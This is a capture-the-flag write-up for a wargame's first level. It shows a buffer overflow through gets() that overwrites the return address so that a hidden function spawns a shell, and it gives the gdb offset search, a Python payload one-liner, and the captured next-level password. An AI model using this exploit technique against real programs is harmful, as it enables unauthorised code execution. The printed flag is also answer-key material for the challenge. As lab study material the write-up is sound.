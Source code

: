 # Level1

This binary has a `run()` function that calls `/bin/sh`, however it is not called by `main()`
There is an unprotected `gets()` `in main()` that will allow us to perform a *buffer overflow attack*
This will consist of writing up on the stack by inputing more characters in gets() than the available buffer size
By overwriting the RET value with the address of run() we can force its execution

Using the pattern generator at https://wiremask.eu/tools/buffer-overflow-pattern-generator/ we can find exactly at what offset to write the address after the buffer

``
gdb level1
(gdb) r
(gdb) Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()	; offset 76
``

``
python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" > /tmp/inj1
cat /tmp/inj1 - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
``
